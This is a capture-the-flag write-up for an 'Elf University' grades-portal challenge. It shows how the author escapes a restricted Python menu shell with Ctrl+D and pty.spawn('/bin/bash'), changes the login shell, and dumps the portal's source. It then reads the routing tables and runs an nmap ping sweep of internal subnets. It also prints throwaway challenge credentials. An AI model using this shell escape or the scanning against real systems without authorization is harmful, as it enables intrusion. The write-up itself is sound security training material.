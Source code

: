 # Initial

Access to the site:

![Access](/img/obj8-2/img1.png)

```text
username: nfjhsxqtcz
password: Anuakviba@

ssh nfjhsxqtcz@grades.elfu.org -p 2222
```

??? note "Continuity Disclaimer"
    You may see me interchangeably using different randomly-generated usernames and passwords. This is because I had to log in at a later date and get screenshots or documentation on this challenge after the fact and a new username/password combination was randomly assigned in the process. Apologies for the confusion.

Connecting via SSH as it instructs you gives you access to a menu:

```sh
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
: 
```

If I type `1` to read my current courses and grades, it refreshes the screen and displays:

```sh
0  Shortname                  Description  Grade
================================================
1    NPAR101  North Pole Art Appreciation     C+
2    REIH201           Reindeer Husbandry     C 
3    WHOL201     World Holiday Literature     C+
4    CACH301              Candy Chemistry     C+
Press Enter to continue...

```

Man, I didn't realize what a C student I was. Especially disappointing in the Candy Chemistry category. I really like candy.

After a fair a bit of hemming and hawing over how much of a C student I was, I discovered that this particular menu situation was simply a python intepreter. If I hit ++ctrl+c++ it would complain that I could exit by typing in `exit`. So it traps the SIGKILL signal, but what about the EOF statement? What happens if I hit ++ctrl+d++? Well of course it kills the application but leaves me in an interactive python prompt!

```sh
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
: Traceback (most recent call last):
  File "/opt/grading_system", line 41, in <module>
    main()
  File "/opt/grading_system", line 26, in main
    a = input(": ").lower().strip()
EOFError
>>> 
```

So, to dump to a shell:

```python
import pty
pty.spawn("/bin/bash")
```

Finally, after obtaining shell access, I changed my shell to something more sensible than this python script:

```sh
nfjhsxqtcz@grades:~$ chsh
Password: 
Changing the login shell for nfjhsxqtcz
Enter the new value, or press ENTER for the default
    Login Shell [/opt/grading_system]: /bin/bash
nfjhsxqtcz@grades:~$ 
```

Now with that out of the way, I logged out and logged back in, because with the python shell trapping my SIGINT and SIGSTOP signals it became annoying if I ran something that took so long it needed to be killed. Plus I now had the ability to `scp` files up and down, so it worked out for the best.

Just for funsies, I snagged the code used to create the interactive prompt:

```python
#!/usr/bin/python3 -i
# Created by:
# Alabaster Snowball
import signal
import os
import grades
from pandas import *
from termcolor import colored, cprint

def signal_handler(sig, frame):
    print("You may only type 'exit' to leave the exam!")

signal.signal(signal.SIGINT, signal_handler)
signal.signal(signal.SIGTSTP, signal_handler)

def main():
    os.umask(7)
    os.system('/usr/bin/clear')
    while True:
        cprint("===================================================", "cyan")
        cprint("=      Elf University Student Grades Portal       =", "cyan")
        cprint("=          (Reverts Everyday 12am EST)            =", "cyan")
        cprint("===================================================", "cyan")
        cprint("1. Print Current Courses/Grades.", "green")
        cprint("e. Exit", "green")
        a = input(": ").lower().strip()
        if a.startswith("1"):
            os.system('/usr/bin/clear')
            user_grades = grades.get_grades()
            formatted_user_grades = [[user_grades[key][0], user_grades[key][1], user_grades[key][2]] for key in user_grades.keys()]
            formatted_user_grades.insert(0,["Shortname","Description","Grade"])
            lines = str(DataFrame(formatted_user_grades)).split('\n')[1:]
            lines.insert(1,"="* len(lines[0]))
            cprint('\n'.join(lines), 'yellow')
            a = input("Press Enter to continue...").lower().strip()
        elif a.startswith("e"):
            os.kill(os.getpid(), 9)
        os.system('/usr/bin/clear')

if __name__ == "__main__":
    main()
```

And since it's calling the `grades` module, looking through the OS I was able to find the module itself in `/usr/lib/python3.8/grades.py`. Here's the source code!

```python
#!/usr/bin/env python3
import getpass
import os
import random
import ast

def get_grades():
    possible_class_titles = [
        ['REIH','Reindeer Husbandry'],
        ['SLPE','Sleigh Propulsion Engineering'],
        ['GEOG','Geometry of Gift-Wrapping'],
        ['CACH','Candy Chemistry'],
        ['WHOL','World Holiday Literature'],
        ['NPAR','North Pole Art Appreciation'],
        ['ELFS','Elf Studies'],
        ['ESCV','Escape vim'],
        ['PRDL','Present Delivery Logistics'],
        ['NNLM','Naughty Nice List Mathematics']
    ]
    possible_class_numbers = ['101','201','301']
    possible_grades = ['F','D','C','B','A']
    possible_modifiers = ['-','+',' ']
    home = f"/home/{getpass.getuser()}"
    gfile = f"{home}/.grades"
    final_grades = {}
    for i in range(random.randrange(4,6)):
        c = random.choice(possible_class_titles)
        while c[0] in final_grades:
            c = random.choice(possible_class_titles)
        final_grades[ c[0] ] = [c[0] + random.choice(possible_class_numbers), c[1], (random.choice(possible_grades) + random.choice(possible_modifiers)).replace("F-",'F ').replace("F+",'F ')]
        # Shortname, Descr, Grade
    if os.path.isfile(gfile):
        try:
            final_grades = ast.literal_eval(open(gfile,'r').read())
        except:
            pass
    else:
        try:
            gf = open(gfile,'w')
            gf.write(repr(final_grades))
            gf.close()
        except:
            pass
    return final_grades
```

Just some fun 4th-wall-breaking stuff. Anyway, onto the challenge!

Noticed that according to `/etc/shells`, `powershell` is a valid shell.

Routing tables shows a particularly interesting set of routes:

```sh
PS /home/nfjhsxqtcz> route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG    0      0        0 eth0
10.128.1.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.2.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.3.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
```

From this point, I started to perform a host lookup scan. To accomplish this, I ran the following: `nmap -sn -oG ping-sweep 10.128.1-3.1-255`

And it returned:

```text
Nmap scan report for 10.128.2.3
Host is up (0.00046s latency).
Nmap scan report for 10.128.2.4
Host is up (0.00039s latency).
Nmap scan report for 10.128.2.5
Host is up (0.00035s latency).
Nmap scan report for 10.128.2.6
Host is up (0.00031s latency).
Nmap scan report for 10.128.2.7
Host is up (0.00028s latency).
Nmap scan report for 10.128.2.8
Host is up (0.00023s latency).
Nmap scan report for 10.128.2.9
Host is up (0.00018s latency).
Nmap scan report for 10.128.2.10
Host is up (0.00013s latency).
Nmap scan report for 10.128.2.11
Host is up (0.000079s latency).
Nmap scan report for 10.128.2.12
Host is up (0.0010s latency).
Nmap scan report for 10.128.2.13
Host is up (0.00094s latency).

 << snipped in the interest of space >>

Nmap scan report for 10.128.3.58
Host is up (0.0015s latency).
Nmap scan report for 10.128.3.59
Host is up (0.0014s latency).
Nmap scan report for 10.128.3.60
Host is up (0.0013s latency).
```

So...a bunch of hosts. I'm going to have to narrow this down some. Gotta see if there's an AD server to interrogate!